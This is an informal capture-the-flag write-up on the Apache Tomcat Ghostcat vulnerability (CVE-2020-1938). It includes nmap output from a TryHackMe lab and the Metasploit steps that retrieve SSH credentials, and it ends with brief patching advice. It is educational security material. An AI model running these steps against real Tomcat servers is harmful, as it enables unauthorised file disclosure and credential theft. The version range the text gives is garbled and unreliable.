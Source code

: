 #  HI ALL
## IN MY ARTICALE FOR THE FIRST 48H FROM THE HACKING NEWS B'DARIJA EVENT 



> ###  in this small article/write up i wanna talk about tomcat CVE-2020-1938 her impact and how to exploit them whit an example of a tryhackme room (tomghost) and why this vulnerability exist and how to patched him

1.  what is cve
* after hacking or knowing what is the first cve we need to understand what is a **CVE**

* so a ***CVE*** is a short for (Commonn Vulnerabilities and Exposures) , and is a list of publicly disclosed computer security flaws and any cve has a id like **CVE-XXXX-XXXX**
* How many CVEs are there?
good question, the total number of cve now is 191637

2 - now go back to our main subject the tomcat CVE-2020-1938
> 2.1 explain
*  The Apache Ghostcat vulnerability is an LFI (Local File Inclusion) vulnerability Ghost Cat is a vulnerability that affects Apache Tomcat. It currently affects versions before 9.0.3, It is caused by an inseucre configuration of the AJP protocol in the default installation of Tomcat, leading to attackers being able to cause information disclosure, and potentially remote code execution.
-what is AJP protocole
AJP stands for Apache Jserv Protocol, and it is used as an optimized version of the HTTP AJP protocol is used for communication between Tomcat and Apache, the software modules used on Apache
> 2.2 What Ghostcat vulnerability can do what is here impact :
- As we have discussed till now that Ghostcat is a file inclusion vulnerability and It’s not a Remote Code Execution (RCE) by default. But some circumstances made it RCE.
-will allow an attacker to read any resources that exist on the Tomcat server 
>2.3 and now is the time to learn how to exloit this vulnerability 
* there is a lot of exploits for this cve but now we will use **metasploit** and the tryhackme room of tomghost
* so let's do nmap scan first
```
nmap -sC -sV 10.10.10.10
Nmap scan report for 10.10.16.253
Host is up, received user-set (0.15s latency).
Scanned at 2022-03-13 15:15:29 IST for 32s
Not shown: 996 closed ports
Reason: 996 conn-refused
PORT     STATE SERVICE    REASON  VERSION
22/tcp   open  ssh        syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw
53/tcp   open  tcpwrapped syn-ack
8009/tcp open  ajp13      syn-ack Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       syn-ack Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/
```
*  after small recon we found  Apache Tomcat 9.0.30
*  so let's use metasploit and run our exploit :
  ```
msfconsole
msf6 > search apache tomcat 9
0 auxiliary/admin:http/tomcat_ghostcat
use 0
msf > show options
msf>set rhost (ip)
msf>run

  ```
after running the exploit we get ssh credantials so the exploit is working and the machine is vulnerable
> 2.4 patching the vulnerability
* the easiest way is updating apatche tompcat 